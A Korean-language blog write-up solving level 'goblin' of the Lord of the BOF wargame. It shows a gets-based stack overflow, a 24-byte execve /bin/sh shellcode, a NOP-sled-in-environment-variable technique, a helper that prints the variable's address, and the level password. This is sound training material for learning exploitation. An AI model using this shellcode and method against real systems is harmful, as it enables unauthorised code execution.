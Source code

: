 ```yaml
---
layout: post
title:  "[LOB]Level03. goblin"
subtitle:   "[LOB]cobolt → goblin"
categories: Wargame[LOB]
tags:
- Wargame
- LOB
- Write-up

---
```


## keyword : small buffer + stdin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis



앞서 문제 cobolt와 다른점은 cobolt에서는 main함수의 argv로 입력값을 받았다면, 지금 문제는 gets를 이용하여 문제를 받는다. 따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.



------

### 0x02. Dynamic Analysis & Exploit



cobolt 문제와 동일하게 환경변수에 쉘코드를 넣고 문제를 풀어보자.



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="700px">

EUNICE 환경변수에 NOP슬라이드와 쉘코드를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어서



<img src="/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE환경변수의 주소를 구해온다. (0xbffffc33)



<img src="/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="600px">



**goblin / hackers proof